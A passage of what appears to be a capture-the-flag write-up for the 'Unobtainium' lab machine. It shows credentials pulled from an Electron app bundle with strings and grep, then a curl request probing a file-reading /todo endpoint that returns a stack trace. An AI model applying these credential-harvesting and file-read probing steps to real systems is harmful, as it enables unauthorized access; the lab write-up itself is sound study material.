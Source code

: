     /opt/unobtainium/resources $ ls

    app.asar

// Found a [tool](https://github.com/electron/asar)(By MarshallOfSound) to extract files from .asar files.

// But it didnt really work to me.... 

// We could also use another way to search strings that contain the word 'password'

    $ strings app.asar | grep "password"
-----

        data: JSON.stringify({"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"text": message}}),

// Or we could also sniff the network packets with wireshark when opening the 'unobtainium' app

![Image 4]()

//  It's seems like Todo function has the capability to read files from the server. 

// Now that we have credentials , we can try to connect with SSH to the machine , but it didnt worked

// So, i open BurpSuite and play with request in the repeater till i send a request with filename empty

// And get ERROR response

![Image 5]()

// We could also get that response with 'curl'

    $ curl -X POST --data '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : ""}' -H "Content-Type: application/json" http://unobtainium.htb:31337/todo 
------

    <!DOCTYPE html>
    <html lang="en">
    <head>
    <meta charset="utf-8">
    <title>Error</title>
    </head>
    <body>
    <pre>Error: ENOENT: no such file or directory, open<br> 
    &nbsp; &nbsp;at Object.openSync (fs.js:476:3)<br> 
    &nbsp; &nbsp;at Object.readFileSync (fs.js:377:35)<br> 
    &nbsp; &nbsp;at /usr/src/app/index.js:86:41<br> 
    &nbsp; &nbsp;at Array.forEach (&lt;anonymous&gt;)<br> 
    &nbsp; &nbsp;at /usr/src/app/index.js:84:36<br> 
    &nbsp; &nbsp;at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)<br> 
    &nbsp; &nbsp;at next (/usr/src/app/node_modules/express/lib/router/route.js:137:13)<br> 
    &nbsp; &nbsp;at Route.dispatch (/usr/src/app/node_modules/express/lib/router/route.js:112:3)<br> 
    &nbsp; &nbsp;at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)<br> 
    &nbsp; &nbsp;at /usr/src/app/node_modules/express/lib/router/index.js:281:22</pre>
    </body>
    </html>
